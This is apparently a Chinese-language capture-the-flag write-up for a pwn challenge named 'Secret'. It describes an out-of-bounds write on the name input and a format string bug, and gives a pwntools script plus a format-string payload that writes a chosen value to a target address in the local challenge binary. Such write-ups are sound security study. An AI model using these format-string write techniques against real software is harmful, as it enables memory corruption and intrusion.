 # Secret





![sn2I8r](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/sn2I8r.png)

一个密码机，要连续输入100次secrest才能get flag。。。显然是唬人的

![adfasfdasfasf](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/adfasfdasfasf.png)

![9b0ViT](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/9b0ViT.png)

输入的函数会进行对比，对比细节在0x40136D这个超长函数中，实际上，基本都是重复，唯一的区别就是每次的值不一样。

![image-20200321174114753](/Users/migraine/Library/Application Support/typora-user-images/image-20200321174114753.png)

输入name的时候，有个越界，可以把记数用的内存覆盖掉。。。不过这个漏洞似乎并没有什么用？

![image-20200321172737950](/Users/migraine/Library/Application Support/typora-user-images/image-20200321172737950.png)

```python
#!/usr/bin/python
from pwn import *
p=process("./secret.dms")
gdb.attach(p,"b *0x46a396")

p.sendline(p64(0x0)+"\x00"*0x8+p32(0x46d080))

p.recvuntil('Secret:')
#p.sendline(str(18283))

p.interactive()

'''
>>> print 0x476b
18283

'''
```

发现原来还有个格式化字符串漏洞。。这个才是有用的漏洞。

![YiiMNz](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/YiiMNz.png)

![ngfPo8](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/ngfPo8.png)



```
>>> fmtstr_payload(6, {0x46d030:0x12334})
'0\xd0F\x001\xd0F\x002\xd0F\x003\xd0F\x00%36c%6$hhn%239c%7$hhn%222c%8$hhn%255c%9$hhn'
```

payload得改

```
target=0x46d030
value=0x12334
payload="%"+str(value)+"c%6$lln"+p64(target)

```

